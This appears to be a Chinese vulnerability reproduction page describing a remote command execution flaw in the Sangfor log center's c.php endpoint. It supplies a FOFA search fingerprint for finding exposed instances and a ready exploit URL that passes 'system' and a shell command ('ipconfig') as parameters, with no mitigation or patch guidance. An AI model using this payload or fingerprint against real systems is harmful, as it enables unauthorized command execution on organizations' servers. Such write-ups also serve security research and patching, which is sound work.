 # 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 日志中心
```

## FOFA

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091915868.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091915736.png)